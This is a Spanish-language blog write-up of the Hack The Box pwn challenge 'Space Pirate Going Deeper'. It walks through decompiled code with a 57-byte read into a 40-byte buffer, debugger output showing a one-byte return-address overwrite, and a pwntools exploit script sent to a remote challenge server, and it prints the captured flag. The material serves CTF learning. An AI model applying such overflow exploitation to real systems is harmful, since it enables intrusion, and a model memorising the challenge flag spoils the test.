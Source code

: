 ```yaml
---
layout: post
title: Space Pirate Going Deeper HTB
comments: true
categories: [Pwn, Writeups, HTB]
---
```


Este es un reto sencillo de la plataforma [Hack the Box](https://app.hackthebox.com/challenges/Space%2520pirate%253A%2520Going%2520Deeper), comparte título con otros dos que subiré proximamente. Espero que os sirva para aprender!

![Image]({{ site.baseurl }}/images/posts/htb-logo.png)

# Reconocimiento

Se nos da un binario con arquitectura `x86_64`, con las siguientes protecciones:

```
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'./glibc/'
    Stripped:   No
```

Con *ghidra* descompilamos para analizar el código fuente:

```c
int main(void){
  setup();
  banner();
  puts("\x1b[1;34m");
  admin_panel(1,2,3);
  return 0;
}
```

Vemos que se llama a una función `admin_panel`, donde apreciamos una vulnerabilidad de tipo *Buffer Overflow*:

```c
void admin_panel(long param_1,long param_2,long param_3)
{
  int iVar1;
  char input_str [40];
  long input_num;
  
  input_num = 0;
  printf("[*] Safety mechanisms are enabled!\n[*] Values are set to: a = [%x], b = [%ld], c = [%ld]. \n[*] If you want to continue, disable the mechanism or login as admin.\n",param_1,param_2,param_3);
  
  while (((input_num != 1 && (input_num != 2)) && (input_num != 3))) {
    printf(&DAT_004014e8);
    input_num = read_num();
  }
  if (input_num == 1) {
    printf("\n[*] Input: ");
  }
  else {
    if (input_num != 2) {
      puts("\n[!] Exiting..\n");
                    /* WARNING: Subroutine does not return */
      exit(0x1b39);
    }
    printf("\n[*] Username: ");
  }
  
  read(0,input_str,0x39);   //Vulnerable a Buffer Overflow (40 <- 57)

  if (((param_1 == 0xdeadbeef) && (param_2 == 0x1337c0de)) && (param_3 == 0x1337beef)) {
    iVar1 = strncmp("DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft",input_str,0x34);
    if (iVar1 != 0) {
      printf("\n%s[+] Welcome admin! The secret message is: ",&DAT_00400c38);
      system("cat flag*");
      goto LAB_00400b38;
    }
  }
  printf("\n%s[-] Authentication failed!\n",&DAT_00400c40);
LAB_00400b38:
  puts("\n[!] For security reasons, you are logged out..\n");
  return;
}
```

Con esto, podemos tratar de buscar el offset hasta el *RIP*, para saltarnos la verificación y ejecutar directamente la línea que imprime la flag.

Ejecutamos con *gdb-peda*:

```bash
[...]
[*] Safety mechanisms are enabled!
[*] Values are set to: a = [1], b = [2], c = [3].
[*] If you want to continue, disable the mechanism or login as admin.

1. Disable mechanisms ⚙️
2. Login ✅
3. Exit 🏃
>> 2

[*] Username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Sin embargo, no parece que estemos sobrescribiendo *RIP*, ni *RBP*:

```bash
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffdbc0 --> 0x400ba0 (<__libc_csu_init>:	push   r15)
RIP: 0x400b41
```

Vamos a probar con otra letra:

```bash
[...]
[*] Username: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
```

Y vemos que *RIP* varía un byte:

```bash
RBP: 0x4242424242424242 ('BBBBBBBB')
RSP: 0x7fffffffdbc0 --> 0x400ba0 (<__libc_csu_init>:	push   r15)
RIP: 0x400b42
```

Por lo que tenemos un **overflow de un sólo byte**, que es más que suficiente como para llegar a donde queremos (`0x400b01`):

![Image]({{ site.baseurl }}/images/posts/2024-11-06-Space-Pirate-Going-Deeper-HTB.png)

# Explotación

Para resolver el reto sólo nos faltaría mandar una cadena de `\x01` lo suficientemente larga, para ello lo haremos mediante un script en *python* utilizando la librería *pwntools*:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./sp_going_deeper')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote("94.237.51.112",50014)
    else:
        return process('./sp_going_deeper')

io = start()

io.sendlineafter(">>", b"1")

payload = 57 * b'\x01'

io.sendlineafter("Input:", payload)

io.interactive()
```

Lo ejecutamos en remoto y tenemos la flag!

```bash
[+] Welcome admin! The secret message is: HTB{d1g_1n51d3..u_Cry_cry_cry}
```
